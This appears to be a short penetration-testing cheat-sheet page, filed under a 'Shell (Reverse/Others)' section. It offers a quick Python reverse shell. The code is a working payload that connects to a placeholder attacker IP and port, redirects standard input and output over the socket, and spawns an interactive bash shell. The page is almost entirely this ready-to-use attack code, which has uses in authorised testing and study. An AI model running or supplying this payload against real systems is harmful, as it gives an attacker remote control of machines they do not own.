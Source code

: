 ```yaml
---
title: Python
parent: Shell (Reverse/Others)
layout: default
nav_order: 6
---
```


Use the following for a quick Python reverse shell (you can use echo 'textbelow' line by line)

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("IP",PORT));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```